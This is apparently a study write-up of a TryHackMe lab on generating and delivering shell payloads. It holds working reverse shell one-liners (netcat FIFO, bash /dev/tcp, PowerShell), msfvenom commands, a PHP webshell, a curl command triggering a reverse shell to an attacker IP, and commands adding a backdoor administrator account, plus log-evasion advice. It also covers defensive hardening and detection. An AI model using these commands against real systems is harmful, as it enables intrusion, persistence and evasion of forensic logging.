

# Room Documentation: Shell Payload Generation & Delivery

---

## 1. Metadata & Overview

* **Learning Path:** Jr Penetration Tester
* **Module:** Module 12 — Metasploit and Exploitation (`12-METASPLOIT-AND-EXPLOITATION`)
* **Room Name:** Shell Payload Generation & Delivery
* **Slug:** `shellgenerationdelivery`
* **Direct URL:** [TryHackMe Shell Payload Generation & Delivery](https://tryhackme.com/room/shellgenerationdelivery)
* **Difficulty:** Medium
* **Category:** Walkthrough & Practical VM Labs
* **Scenario:** Generating, customizing, and delivering standalone staged and stageless shell payloads with `msfvenom`, orchestrating listeners with `multi/handler`, deploying webshells, and establishing persistence on Windows and Linux targets.
* **Tasks Count:** 8 tasks
* **Questions Count:** 17 verified questions & confirmations (100% completion parity)

---

## 2. Executive Summary

The **Shell Payload Generation & Delivery** room bridges the operational gap between configuring passive listeners and actively engineering malicious binaries, scripts, and web shells capable of navigating real-world target constraints. In realistic penetration tests, testers rarely have an interactive prompt ready to run `nc -e /bin/bash`; they must deliver payloads across unauthenticated file upload forms, spear-phishing channels, or restricted web applications.

Core proficiencies mastered in this room:
1. **Living off the Land & Fallback Payloads:** Bypassing the absence of the Netcat `-e` flag by engineering circular named pipes (`mkfifo`), writing native Windows .NET socket clients in PowerShell using `System.Net.Sockets.TCPClient`, and exploiting Bash's internal `/dev/tcp` virtual device.
2. **Industrial Payload Crafting via `msfvenom`:** Generating 64-bit Linux stageless ELF binaries (`linux/x64/shell_reverse_tcp`), Windows staged executables (`windows/x64/meterpreter/reverse_tcp`), and applying multi-pass encoding (`-i`).
3. **Session Orchestration via `multi/handler`:** Backgrounding multi-target listeners (`exploit -j`), monitoring two-phase stager handshakes (`Sending stage`), and managing active sessions with `sessions -i`.
4. **Webshell Architecture & Log Evasion:** Deploying lightweight PHP webshells via `shell_exec`, analyzing why switching from GET to POST eliminates command argument traces in web server `access.log` files, and leveraging standard repositories (`php-reverse-shell.php`).
5. **Administrative Persistence on Windows:** Executing system commands through web shells on Windows Server 2019 to provision local administrative accounts (`net user` / `net localgroup administrators`) and establishing persistent RDP access.

---

## 3. Architectural Flowchart: Payload Generation & Delivery



---

## 4. Prerequisites & Environment Setup

* **Linux Practice VM:** Linux target accessible via SSH (`ssh shell@MACHINE_IP` with password `TryH4ckM3!`) and HTTP web server.
* **Windows Practice VM:** Windows Server 2019 running XAMPP web server stack, accessible via RDP (`xfreerdp`).
* **Required Attacker Utilities:** `msfvenom`, `msfconsole`, `netcat`, `curl`, `xfreerdp`.

---

## 5. Core Concepts & Technical Deep Dive

### A. The Mechanics of Named Pipes (FIFO) in Shell Redirection
* Modern Linux systems compile OpenBSD Netcat without `-e` to prevent trivial shell binding.
* The FIFO (`mkfifo /tmp/f`) creates an in-memory character stream on disk. Netcat reads from the pipe as standard input, transmitting data across the socket. The socket output feeds `/bin/sh`, which in turn directs its stdout and stderr (`2>&1`) back into `/tmp/f`, completing the loop without external dependencies.

### B. PowerShell Direct Sockets via .NET
* Rather than downloading external Windows binaries like `nc.exe`, PowerShell interacts directly with the Windows TCP/IP stack via `System.Net.Sockets.TCPClient`.
* It binds an interactive stream where commands are evaluated in memory via `Invoke-Expression` (`iex`), avoiding disk writes.

### C. Staged Handshake Mechanics
* Staged payloads divide execution into a lightweight stager (Stage 0) and the primary payload (Stage 1).
* When Stage 0 executes, it connects back to `multi/handler`. The handler recognizes the stager signature and transmits the complete payload into target memory, logging `[*] Sending stage (X bytes) to ...`.

### D. Webshell Log Forensics: GET vs. POST
* **GET Requests:** Arguments are appended to the request URI (`/shell.php?cmd=whoami`). Web server access logs (`access.log`) permanently record the full URI string, exposing command history to forensic investigators.
* **POST Requests:** Parameters travel inside the HTTP request body. Web server access logs record only the target path (`/shell.php`), shielding executed commands from passive log reviews.

---

## 6. Payload Generation & Delivery Commands Reference

| Utility / Category | Exact Command / Syntax | Operational Objective |
| :--- | :--- | :--- |
| **Netcat FIFO Reverse** | `mkfifo /tmp/f; nc <IP> 4444 < /tmp/f \| /bin/sh >/tmp/f 2>&1; rm /tmp/f` | Reverse shell without `-e` using a named pipe |
| **Bash TCP Redirection** | `bash -i >& /dev/tcp/<IP>/4444 0>&1` | Native Linux reverse shell using Bash `/dev/tcp` |
| **PowerShell Socket** | `powershell -c "$c=New-Object System.Net.Sockets.TCPClient('<IP>',4444);..."` | Native Windows reverse shell one-liner |
| **msfvenom Stageless ELF**| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=4444 -f elf -o shell.elf` | Generates 64-bit Linux stageless binary |
| **msfvenom Staged EXE** | `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -o shell.exe` | Generates 64-bit Windows staged Meterpreter binary |
| **Multi/Handler Launch** | `use multi/handler`<br>`set PAYLOAD <payload>`<br>`set LHOST <IP>`<br>`exploit -j` | Launches background listener job in Metasploit |
| **Session Interaction** | `sessions -i <ID>` | Interacts with an active backgrounded session |
| **Minimal PHP Webshell**| `<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>` | Web shell script preserving terminal formatting |
| **Windows User Account**| `net user pentester Passw0rd! /add`<br>`net localgroup administrators pentester /add` | Provisions local administrator for RDP persistence |

---

## 7. Practical Walkthrough: Linux & Windows Targets

### Lab 1: Linux Exploitation & Webshell Upgrade
1. Generate stageless Linux ELF executable:
   ```bash
   msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.15 LPORT=4444 -f elf -o shell.elf
   ```
2. Catch with Netcat (`nc -lvnp 4444`).
3. Deploy staged payload `linux/x64/shell/reverse_tcp`, catch with `multi/handler`, and observe the `Sending stage` notification.
4. Upload `shell.php` and upgrade to interactive shell via:
   ```bash
   curl -G "http://MACHINE_IP/uploads/shell.php" --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.15/4444 0>&1'"
   ```

### Lab 2: Windows Server 2019 & RDP Persistence
1. Generate staged 64-bit Windows Meterpreter executable:
   ```bash
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=4444 -f exe -o meterpreter.exe
   ```
2. Catch with `multi/handler` using `exploit -j`.
3. Interact via `sessions -i 1` and interrogate host parameters:
   ```text
   meterpreter > sysinfo
   Computer        : WIN-SERVER2019
   OS              : Windows Server 2019 (10.0 Build 17763).
   Architecture    : x64
   ```
4. Upload `shell.php` to the XAMPP web server and issue account creation commands:
   ```text
   http://MACHINE_IP/uploads/shell.php?cmd=net%20user%20pentester%20Passw0rd!%20/add
   http://MACHINE_IP/uploads/shell.php?cmd=net%20localgroup%20administrators%20pentester%20/add
   ```
5. Connect to the machine using RDP:
   ```bash
   xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:MACHINE_IP /u:pentester /p:'Passw0rd!'
   ```

---

## 8. Tasks & Questions Index

| Task # | Task Title | Question Count | Verified Answers & Flags | Dedicated Documentation |
| :---: | :--- | :---: | :--- | :---: |
| 01 | Introduction | 1 | Acknowledgment of payload generation and delivery concepts (`No answer needed`) | [TASK-01.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/TASKS/TASK-01.md) |
| 02 | Common Shell Payloads | 3 | Netcat workaround (`named pipe`), .NET class (`System.Net.Sockets.TCPClient`), Bash path (`/dev/tcp`) | [TASK-02.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/TASKS/TASK-02.md) |
| 03 | msfvenom | 3 | Linux stageless payload (`linux/x64/shell_reverse_tcp`), iteration flag (`-i`), memory payload (`meterpreter`) | [TASK-03.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/TASKS/TASK-03.md) |
| 04 | Metasploit multi/handler | 3 | Module load command (`use multi/handler`), background flag (`-j`), session interaction (`sessions -i`) | [TASK-04.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/TASKS/TASK-04.md) |
| 05 | Webshells | 3 | Execution function (`shell_exec`), stealthy HTTP method (`POST`), classic script (`php-reverse-shell.php`) | [TASK-05.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/TASKS/TASK-05.md) |
| 06 | Practical Exercises: Linux | 2 | ELF format flag (`-f elf`), handshake confirmation message (`Sending stage`) | [TASK-06.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/TASKS/TASK-06.md) |
| 07 | Practical Exercises: Windows | 1 | Meterpreter system information command (`sysinfo`) | [TASK-07.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/TASKS/TASK-07.md) |
| 08 | Conclusion | 1 | Final mastery acknowledgment (`No answer needed`) | [TASK-08.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/TASKS/TASK-08.md) |

---

## 9. Defense, Detection & Blue Team Countermeasures

1. **Web Server Hardening & Webshell Mitigation:**
   - Disable dangerous PHP functions via `php.ini`: `disable_functions = shell_exec, exec, system, passthru, proc_open, popen`.
   - Strip execution permissions on writable directories: configure web servers to prevent script execution inside `/uploads/`.
2. **Account Creation Telemetry:**
   - Monitor Windows Security Event Log: Event ID 4720 (user creation) and Event ID 4728/4732 (addition to privileged groups).
   - Flag instances where web server processes (`w3wp.exe`, `httpd.exe`) spawn administrative utilities like `net.exe`.

---

## 10. MITRE ATT&CK Matrix Mapping

| Attack Phase | Technique ID | Technique Name | Implementation in Room |
| :--- | :--- | :--- | :--- |
| **Initial Access / Persistence** | T1505.003 | Web Shell | Uploading PHP webshell via XAMPP |
| **Execution** | T1059.004 | Unix Shell | Running ELF payloads and Bash `/dev/tcp` scripts |
| **Execution** | T1059.001 | PowerShell | Spawning shells via `System.Net.Sockets.TCPClient` |
| **Discovery** | T1082 | System Information Discovery | Interrogating host parameters via `sysinfo` |
| **Persistence** | T1136.001 | Create Account: Local Account | Creating local administrator via `net user /add` |
| **Lateral Movement** | T1021.001 | Remote Desktop Protocol | Connecting via RDP with provisioned credentials |

---

## 11. Common Pitfalls & Troubleshooting

* **Issue: Linux ELF binary fails to execute (`Permission denied`).**
  * *Root Cause:* Newly transferred binary lacks POSIX execute permissions.
  * *Remedy:* Execute `chmod +x <binary>` prior to running, or invoke via `/lib64/ld-linux-x86-64.so.2 ./<binary>`.
* **Issue: `multi/handler` hangs during connection.**
  * *Root Cause:* Payload mismatch between `msfvenom` and `multi/handler` (e.g. staged payload paired with stageless handler).
  * *Remedy:* Match payload path, architecture, and port settings identically.

---

## 12. Technical Comparisons

| Feature / Metric | Direct Command Payloads | Web Shells |
| :--- | :--- | :--- |
| **Transport Layer** | Raw TCP/UDP socket | Standard HTTP/HTTPS requests |
| **Firewall Egress Impact** | Subject to egress port blocking | Bypasses egress filtering (uses port 80/443) |
| **Interactivity** | True interactive terminal | Request/response model (non-interactive) |
| **Forensic Footprint** | Network connection telemetry | Logged in HTTP access logs (unless using POST) |

---

## 13. Best Practices & Rules of Engagement

1. **Artifact Decontamination:** Always remove uploaded webshells (`shell.php`) and payload binaries (`shell.elf`, `meterpreter.exe`) immediately following testing.
2. **Account Remediation:** Remove any local accounts created during testing (`pentester`) to prevent leaving permanent backdoors.
3. **Prefer POST over GET:** Execute webshell commands via HTTP POST to prevent polluting client web server access logs with plaintext payloads.

---

## 14. References & Official Links

* [TryHackMe Shell Payload Generation & Delivery Room](https://tryhackme.com/room/shellgenerationdelivery)
* [Rapid7 Official msfvenom Documentation](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)
* [Microsoft .NET TCPClient Documentation](https://learn.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient)
* [GNU Bash Network Redirections](https://www.gnu.org/software/bash/manual/bash.html#Redirections)
* [Task Guide (TASKS.md)](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/TASKS.md)
* [Additional Technical Notes (ADDITIONAL-NOTES.md)](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/ADDITIONAL-NOTES.md)
* [Official References (REFERENCES.md)](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/07-SHELL-PAYLOAD-GENERATION-DELIVERY/REFERENCES.md)
